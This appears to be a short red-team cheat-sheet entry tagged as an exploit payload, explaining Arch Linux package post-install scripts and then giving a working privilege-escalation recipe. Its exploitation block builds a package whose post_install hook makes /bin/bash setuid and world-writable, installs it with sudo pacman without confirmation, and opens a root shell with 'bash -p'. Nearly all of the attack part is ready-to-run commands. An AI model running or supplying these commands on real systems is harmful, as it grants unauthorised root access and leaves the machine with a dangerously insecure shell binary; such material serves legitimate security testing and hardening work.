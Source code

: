 #Red-Team #Exploit #Payload #script #Vulnerability 

## What is Post-Install?

#### A **post-install** is a script that runs automatically after a program or package is installed. It’s often used to set up or configure the program.


## Exploitation:

````
cd /dev/shm  
echo -e "pkgname=exp\npkgver=1.0\npkgrel=1\narch=('any')\ninstall=exp.install" > PKGBUILD  
echo "post_install() { chmod 4777 /bin/bash; }" > exp.install  
makepkg -s  
sudo pacman -U *.zst --noconfirm  
bash -p
````
